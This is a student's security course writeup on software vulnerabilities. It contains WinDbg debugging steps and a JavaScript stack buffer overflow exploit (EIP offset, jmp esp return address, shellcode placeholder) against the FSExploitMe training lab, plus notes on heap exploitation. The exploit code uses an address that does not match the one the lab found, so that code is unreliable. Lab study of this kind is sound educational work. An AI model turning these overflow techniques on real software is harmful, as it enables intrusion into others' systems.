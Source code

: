 [Back to Index](https://jaegermeiste.github.io/DefenseAgainstTheDarkArts/)

## Week 4 Writeup

Jason George

### Software Vulnerabilities and Common Exploits Lesson 1 - Wk 4

Brad Antoniewicz ([@brad_anton](https://twitter.com/brad_anton)) is currently a Security Research Manager at OpenDNS/Cisco, but was R&D Manager at Intel Foundstone and Adjunct Professor at NYU at the time of the video.

[http://cwe.mitre.org/data/index.html](http://cwe.mitre.org/data/index.html) has various filters and views listing common software vulnerabilities for a programmer to worry about. For example, [http://cwe.mitre.org/data/definitions/14.html](http://cwe.mitre.org/data/definitions/14.html) is an interesting one - compiler optimizations removing code that clears the contents of a buffer (because the buffer is never accessed again afterwards). Thus you need a secure way to zero a buffer wihtout the compiler optimizing it away - either by manually doing something like:

``` C
memset(buffer, 0, sizeof(buffer)); 
buffer[0] = 0;    // Prevent compiiler optimizing away memset by (meaninglessly) accessing it afterward
```

or in Win32, using SecureZeroMemory ([https://msdn.microsoft.com/en-us/library/windows/desktop/aa366877(v=vs.85).aspx](https://msdn.microsoft.com/en-us/library/windows/desktop/aa366877(v=vs.85).aspx)) instead of ZeroMemory.

FSExploitMe Lab 1:
1. lmf m FSExploitMe >> start = 54430000 end = 5443b000
2. !teb >> StackBase = 021f0000 StackLimit=021d7000 ?021f0000 - 021d7000 = 00019000
3. !peb >> ProcessHeap = 00320000
4. r >> eip=54431df0
5. u eip L10 >> 54431df3 sub esp, 14h (0x14 = 20 bytes)
6. t 5; du poi(esp) >> FluffyBunniesDontFlapOrQuack
7. p b 11 >> eip = 54431e27 cmp dword ptr [ebp-4],0Ah (0x0A = 10 decimal). 10 loops
8. pt >> eax = 00007a69; .formats eax >> Decimal: 31337
9. !address esi >> Usage: Stack

Most of the difficulty here is simply in learning WinDbg, but it is obviously very powerful. Now on to exploits!

FSExploitMe Lab 2:

A. Stack Behavior:
1. r >> edi = 54431e80
2. 3 arguments: 54431e89 push 1, 54331e8b push offset FSExploitMe!IID_DFSExploitMeEvents+0x6c (54434ecc), 54431e90 push 26h
3. .formats 26h >> 38 decimal, da 54434ecc >> "HeyHeyHeySon", 0x1 = 1 decimal: function call could be: func(int 38, char* "HeyHeyHeySon", bool true);

B. Crash Triage
1. r >> eip = 41414141, ebp = 41414141 
2. eax = 020f95ec, ebx = 00000008, ecx = 00000000, edx = 00000000, esi = 020f9a00, edi = 54432160, eip = 41414141, esp = 020f99f8, ebp = 41414141. Not ebx, ecx, edx, eip, or ebp. dd edi points to normal looking data. dd eax >> 414141... , dd esi >> 414141..., dd esp >> 414141... so eax, esi, and esp point to attacker controlled data.
3. 544320e0
4. 0x400 = 1024 decimal

C. Lab: Exploit!
1. ```Javascript
function L2Exercise1() {
  var s = msfPatternString;
  FSExploitMe.StackBuffer(s);
}
```
Loading byakugan and setting the pattern_offset 2000 doesn't seem to do anything at first. On the second atttempt, I loaded byakugan before triggering the exploit and the pattern_offset 200 command returned `[Byakugan] Control of eip at offset 1028.`
2. ```Javascript
function L2Exercise1() {
  var s = MakeString(1028/2);
  s += "\u4242\u4242"
  FSExploitMe.StackBuffer(s);
}
```
3. lmf m FSExploitMe >> start=54430000 end=5443b000; s 54430000 5443b000 ff e4 >> 54432437
4. ```Javascript
function L2Exercise1() {
  var s = MakeString(1028/2);
  s += "\ub000\u5443"  /* jmp esp address */
  s += shellcode;
  FSExploitMe.StackBuffer(s);
}
```
5. 54432159 is a ret 4, popping 4 bytes from the stack.
6. ```Javascript
function L2Exercise1() {
  var s = MakeString(1028/2);
  s += "\ub000\u5443"  /* jmp esp address */
  s += "\u4141\u4141"
  s += shellcode;
  FSExploitMe.StackBuffer(s);
}
```
### Software Vulnerabilities and Common Exploits Lesson 2 - Wk 4

Random note: While 0x41 is ASCII A, `\u4141` used in the exploit examples is 䅁, the unified Chinese/Japanese/Korean "Ideograph to husk rice; to get the grains by oppressing the ears of the rice plant" ([https://unicode-table.com/en/4141/](https://unicode-table.com/en/4141/)). Sort of apropos.

Enabling the Low Fragmentation Heap is important in order to ensure there is contiguous memory to exploit. The heap is prdicatably organized, so you can load exploit code in high memory, replace a freed object in the LFH with a pointer to your exploit code, and then the code itself will execute the exploit naturally the next time the compromised object is called.
